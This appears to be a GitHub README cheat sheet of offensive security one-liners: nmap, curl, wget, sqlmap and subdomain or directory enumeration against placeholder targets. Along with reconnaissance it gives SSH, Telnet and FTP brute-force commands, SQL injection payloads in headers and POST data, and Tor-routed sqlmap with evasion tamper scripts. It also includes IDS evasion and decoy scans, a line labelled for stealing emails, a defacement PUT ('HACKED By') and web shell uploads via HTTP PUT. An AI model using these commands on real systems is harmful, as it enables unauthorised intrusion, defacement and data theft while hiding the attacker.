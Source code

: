 # <img width="28" src="http://0z3r00t3r.6te.net/img/folder.png"> Nmap 
##### &#x1F538; options:
    #(OPTION): -P0 |-> skip ping
    #(OPTION): -iL list.txt |-> to scan file with ips websites
    #(OPTION): -T0 / or / -T1 |-> avoid IDS detection firewall
    #(OPTION): -oG scan.txt |-> Grepable output
    #(OPTION): -sW |-> TCP windows port scan
    #(OPTION): -sS / -sT / -sU / -sA / -sM |-> TCP SYN - TCP port - UDP - TCP ACK - TCP Maimon port
    #(OPTION): -sL |-> No scan list targets only
    #(OPTION): -sn |-> disable port scan
    #(OPTION): -Pn |-> disable host - port only
    #(OPTION): -n |-> never do dns resolution

##### &#x1F538; xml.out to use php insert :
    - sudo nmap -d -sV -Pn -F -sS -n -O -A --script=default,external,ssl-heartbleed --script-args shodan-api.apikey=api-Key-Here -oX out.xml <TARGET>

##### &#x1F538; Supported Methods: GET HEAD POST OPTIONS :
    nmap -script http-methods -p443 -script-args http-methods.url-path='/' <TARGET>

##### &#x1F538;  SSH Brute Cmd : 
    nmap -p 22 --script ssh-brute --script-args userdb=/opt/backbox/user.txt,passdb=/opt/backbox/pass.txt --script-args ssh-brute.timeout=4s <TARGET>

##### &#x1F538;  Telnet Brute Cmd : 
    nmap -p 23 --script telnet-brute --script-args userdb=/opt/backbox/user.txt,passdb=/opt/backbox/pass.txt,telnet-brute.timeout=8s <TARGET>

##### &#x1F538;  Put method : 
    nmap -script http-put -script-args http-put.url='/shell.php',http-put.file='/shell.txt' -p 80 <TARGET>

#### &#x1F538; Print options : 

    #print ip + website
      nmap -p80 -Pn -oG - <TARGET>/24 | awk '/open/{print $2 " " $3}'

    #print ip + port open
      nmap -vv <TARGET>/24  | awk -F'[ /]' '/Discovered open port/{print $NF":"$4}'

    #print websites only
      nmap -sL -oG - <TARGET>/24 | awk '$3~/\(.+\)/{print $3}' | tr -d '()'

    #print ip only using port 22
      nmap -n -sn -PS22 -oG - <TARGET>/24 | awk '/Status: Up$/{print $2}'

    #print IP addresses that are up
      nmap -n -sn -oG - <TARGET>/24 | awk '/Status: Up$/{print $2}'

#### &#x1F538; Domains : 
    nmap --script=dns-brute.nse <TARGET>
    nmap --script=auth <TARGET>
    nmap --script=default <TARGET>
    nmap -Pn --script=vuln <TARGET>
    nmap -n -p445 --script=broadcast <TARGET>
    nmap --script external <TARGET>
    nmap -p 53 --script dns-zone-transfer.nse -v <TARGET>
    nmap -Pn -sV --script=vulners <TARGET>
    nmap --script http-methods --script-args http-methods.url-path='/' <TARGET>
    nmap -p 80 --script dns-brute.nse <TARGET>
    nmap -sV --script=vulscan/vulscan.nse <TARGET>
    nmap -O --script external -oX out.xml <TARGET>
    nmap -d --script ssl-heartbleed --script-args vulns.showall -sV <TARGET> -oX s.xml
    sudo nmap -PN -F -O -A --script=default,external,ssl-heartbleed -sV -oX targetoutput.xml -d <TARGET>
    nmap -sV --script ./sourcfile.nse <TARGET>
    nmap -sV --script http-sec-headers.nse <TARGET>
    nmap -F --script icap-info <TARGET>
    nmap --script=http-enum -p80 -n 
    nmap -p 1344 --script icap-info <TARGET>
    nmap -sn -Pn --script hostmap-crtsh <TARGET>
    
    
# <img width="28" src="http://0z3r00t3r.6te.net/img/folder.png"> Curl : 

##### &#x1F538; print server name using curl
`curl -i -v --url <TARGET> 2> /dev/null | grep Server`

##### &#x1F538; SCAN 443 With Curl
`curl -insecure -v -X OPTIONS <TARGET>`
    
##### &#x1F538; Curl Injection :     
`curl -v --header "X-CustomHeader: SQLi" --cookie "Set-Cookie:SQLi" --user-agent "User-Agent: SQLi" -H "Accept: application/json-SQLi" -H "Set-Cookie: SQLi"\"  <TARGET>`
    
##### &#x1F538; PUT FILE WITH Curl :
`curl -i -X PUT -H "Content-Type: text/plain; charset=utf-8" -d "HACKED By" <TARGET>/x.php --socks5 127.0.0.1:9050`

##### &#x1F538; AnyCMD:
    #Bypass : `curl --resolve www.DOMAIN.com:80:127.0.0.1 <TARGET>`
    #http Status : `curl -sL -w "%{http_code}\n" "<TARGET/DOMAIN>" -o /dev/null`
    #curl post : curl --socks5-hostname 127.0.0.1:9050 --data "search=1' or 1+1--+-"  target.com
    #curl injec : curl -v --header "X-CustomHeader: 'order by 111--+-" target.com
    #curl bypass resolve : curl --insecure --resolve target.com:80:127.0.0.1 "https://target.com"
    #curl Steal all Emails : curl -L -K -v --silent http://target.com/ 2>&1 | grep -hrio "\b[a-z0-9.-]\+@[a-z0-9.-]\+\.[a-z]\{2,4\}\+\b"
    #curl grep Server : curl -v --silent target.com 2>&1 | grep -E "Server:" | cut -d ':' -f2-2 | head -1 | tail -1
    #curl grep Wordpress : curl -insecure -X OPTIONS target.com | grep -E "admin-ajax.php|wp-content|wp-admin|wp-json|wp-includes"
    #curl grep input value form : curl -J -L target.com | grep -E "<input+" | grep -E "name=[\"]+[a-z]+"

    #wget grep page : wget --recursive --no-clobber --page-requisites --html-extension --convert-links --restrict-file-names=windows --domains website.org --no-parent target.com/login
    #wget mirror page 1 : wget --execute robots=off --recursive --no-parent --continue target.com
    #wget mirror page 2 : wget --page-requisites --span-hosts --convert-links --adjust-extension http://target.com
    #wget mirror with save folder : wget -r -P TargetFolder --execute robots=off --recursive --no-parent --continue target.com
    #wget : wget target.com/login --no-check-certificate --auth-no-challenge 2>&1

    #SSL : sslscan --http --bugs --verbose --show-certificate target.com
    #SSL : openssl s_client -showcerts -servername IP -connect target.com:443 2>/dev/null
    #SSL cert : openssl req -newkey rsa:2048 -nodes -keyout targetkey.key -x509 -days 1000 -subj '/CN=www.target.com/O=target./C=SA' -out targetcrt.crt

    #SQLMAP : sqlmap -u "target.com" --dbs -v 3 --tor --level 5 --risk 3 --time-sec 10 --batch --tamper=space2comment,between | grep -E -e "+\[INFO+]"
    #SQLMAP : sqlmap -u "target.com" --dbs -v 3 --tor --level 5 --risk 3 --time-sec 10 --batch --tamper=space2comment,between | egrep -i "(GET.+.appears.to.be|INFO.+.the.back-end.DBMS|back-end DBMS|web application technology|available databases|\[\*\]|it looks like the)"
    =====================================
    #nmap : nmap --script=http-methods.nse --script-args http-methods.url-path=/wp-config target.com
    #nmap : nmap --script=http-methods.nse --script-args http-methods.retest=1 target.com
    #nmap : nmap -d --script ssl-heartbleed --script-trace --script-args vulns.showall -sV target.com
    #nmap : nmap -p 21 --script=ftp-brute nmap target.com -d  
    #nmap : nmap -sA -T4 target.com
    #nmap : nmap -vv TARGET_IP_HERE  | awk -F'[ /]' '/Discovered open port/{print $NF":"$4}'
    #nmap : nmap -script http-methods -p443 -script-args http-methods.url-path='/' target.com | grep -Ee "GET|POST|HEAD|OPTIONS"
    #nmap : sudo nmap -T4 -sS target.com | grep -e "80\|81\|8080" | cut -d "/" -f1
    #nmap : nmap -D RND:10 -p 443 target.com
    #Tor: proxychains nmap -sTV -n -PN -p3306 -iL test_target.txt 
    #Fake DNS with NMAP : nmap target.com -D fakeDomain.com fakeDomain2.com
    nmap -sS -O target.com
    #view dir: nmap --script=http-enum -p80 -n target.com
    ==== Dirs info & DNC & IP ====
    #wget dir links : wget -c --user-agent="HHO" --content-disposition -E -qO- target.com | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
    scanlink.py -H http://target.com/ -f linkadmin.txt
    dnsrecon.py -d target.com -D target.com.N.txt -t std --xml target.com.dns.xml
    brutesub.pl -d target.com -s target.com.txt -u 6 -n CCCC
    subbrute.py target.com -o target.com.names
    dirsearch -u target.com -e php
    sublist3r.py -d target.com -b -t 50 -p 80,443,21,22
    dotdotpwn.pl -m ftp -h www.target.com -M GET -U XX -P XX
    dotdotpwn.pl -m http -h target.com -d 6 -f -x HTTP=80
    golismero.py https://target.com
    nslookup -q=TXT target.com
    dmitry -winsepo target.com
    sudomy -d target.com -dP -eP -rS -cF -pS -tO -gW --httpx --dnsprobe -aI webanalyze -sS
    fierce --domain target.com --subdomains accounts admin ads
    --
    crunch 2 3 qwertyuioplkjhgfdsazxcvbnm1234567890 > smpList2
    onesixtyone -c smpList2 -d target.com
    --
    ---ip/host/dns---
    dig -t SOA target.com | grep -A1 "AUTHORITY SECTION\|ANSWER SECTION" | awk '{print$5}' | sed '/^$/d'
    dig +short target.com | awk '{ print ; exit }'
    host target.com | awk '/has address/ { print $4 }'
    host -4 -W1 -t A target.com 2>/dev/null | awk '/has address/ { print $NF; exit }'
    getent hosts target.com | awk '{ print $1 }'
    nslookup target.com | awk '/^Address: / { print $2 }'
    php -r "echo gethostbyname('target.com');"
    tor-resolve -5 -v www.target.com 127.0.0.1:9050
    Script_END: ---------------------

##### &#x1F538; Requested Range Not Stisfiable vulnerable : 
    curl -v <TARGET> -H "Host: <TARGET>" -H "Range: bytes=0-18446744073709551615" -k
   
   #Turn WiFi OFF : `nmcli radio wifi off` &#x274C;
   
   #Turn WiFi ON : `nmcli radio wifi on` &#x2714;
   
##### &#x1F538; generate shell as js or jsp and use terminal to upload to the target:  

`proxychains curl -X PUT <TARGET>:79/admin/js.jsp -d @- < /opt/shell.js`

 
    
